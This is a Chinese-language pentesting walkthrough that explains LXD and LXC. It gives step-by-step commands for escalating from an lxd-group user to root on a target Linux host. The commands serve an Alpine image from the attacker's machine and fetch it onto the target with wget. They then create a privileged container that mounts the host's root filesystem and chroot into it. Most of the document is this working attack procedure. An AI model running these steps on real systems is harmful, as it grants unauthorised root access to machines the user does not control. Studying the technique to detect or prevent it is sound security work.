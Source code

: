### 以普通用户进入目标机后，id，发现存在lxd组别，可使用一下提权方法
### 漏洞介绍
LXD是一个root进程，它负责执行任意用户的LXD UNIX套接字写入访问操作。而且在某些情况下，LXD甚至都不会调用它的用户权限进行检查和匹配，本文就是讨论这种攻击方式。

Linux Container（LXC）通常被认为是一种轻量级虚拟化技术，它介于Chroot和完整开发的虚拟机之间，LXC可以创建一个跟正常Linux操作系统十分接近的环境，但是不需要使用到单独的内核资源。

Linux Daemon（LXD）是一个轻量级容器管理程序，而LXD是基于LXC容器技术实现的，而这种技术之前Docker也使用过。LXD使用了稳定的LXC API来完成所有的后台容器管理工作，并且增加了REST API支持，更进一步地提升了用户体验度。

### 原理介绍
用户创建一个容器，再用容器挂载宿主机的磁盘，然后用容器的权限去操作宿主机磁盘内容从而达到提权。

## 操作
### 1.在本地机上下载lxd的镜像模板文件

```
https://github.com/saghul/lxd-alpine-builder.git
```

cd到其目录下，开启httpserver

```
python -m http.server 8080
```

### 2.在目标机上wget镜像模板
```
wget your_ip:8080/alpine-v3.12-x86_64-20200902_1515.tar.gz
```
在以镜像模板创建容器之前先初始化lxd比较好

不然可能没有存储池storage pool
```
lxd init
lxd初始化，一路回车默认回车就行

lxc image import alpine-v3.12-x86_64-20200902_1515.tar.gz --alias  image_name
```

### 3.通过容器提权
```
lxc init image_name ignite -c security.privileged=true
lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
lxc start ignite
lxc exec ignite /bin/sh
```

即可成为root

执行chroot  /mnt/root可获得root的全部权限

### 原理
lxd组用户可以以任意镜像创建容器，并将当前系统根目录挂载到已创建容器的mnt目录下，/mnt/root/目录是一个完整的根目录，可以使用chroot获取到这个根目录的完整root权限。
